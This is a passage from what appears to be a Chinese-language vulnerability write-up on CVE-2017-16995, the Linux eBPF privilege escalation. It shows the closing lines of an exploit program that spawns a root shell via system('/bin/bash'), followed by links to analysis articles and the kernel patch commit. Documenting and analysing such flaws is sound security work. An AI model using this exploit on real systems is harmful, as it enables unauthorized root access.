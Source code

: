 ```
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}

```


## 参考链接

分析文章：

https://www.anquanke.com/post/id/101923

https://xz.aliyun.com/t/2212

相关代码补丁 ：

![](../image/CVE-2017-16995-ebpf/2.jpg)

https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f

补丁commit：95a762e2c8c942780948091f8f2a4f32fce1ac6f

